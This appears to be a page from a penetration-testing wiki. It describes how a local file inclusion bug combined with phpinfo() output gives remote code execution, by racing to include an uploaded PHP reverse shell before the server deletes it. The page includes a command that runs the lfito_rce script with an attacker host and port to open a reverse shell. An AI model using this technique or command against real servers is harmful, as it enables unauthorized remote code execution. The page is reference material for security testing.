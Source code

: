 ```yaml
---
authors: ShutdownRepo
---
```


# phpinfo

> [!TIP]
> The prerequisites for this method are :
> 
> * having `file_uploads=on` set in the PHP configuration file
> * having access to the output of the `phpinfo()` function

When `file_uploads=on` is set in the PHP configuration file, it is possible to upload a file by POSTing it on any PHP file ([RFC1867](https://www.ietf.org/rfc/rfc1867.txt)). This file is put to a temporary location on the server and deleted after the HTTP request is fully processed.

The aim of the attack is to POST a PHP reverse shell on the server and delay the processing of the request by adding very long headers to it. This gives enough time to find out the temporary location of the reverse shell using the output of the `phpinfo()` function and including it via the LFI before it gets removed.

The [lfito_rce](https://github.com/roughiz/lfito_rce) (Python2) script implements this attack.

```bash
#There is no requirements.txt, the dependencies have to be installed manually
python lfito_rce.py -l "http://$URL/?page=" --lhost=$attackerIP --lport=$attackerPORT -i "http://$URL/phpinfo.php"
```

The "[LFI with phpinfo() assistance](https://docs.google.com/viewerng/viewer?url=https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)" research paper from [Insomnia Security](https://insomniasec.com/) details this attack.
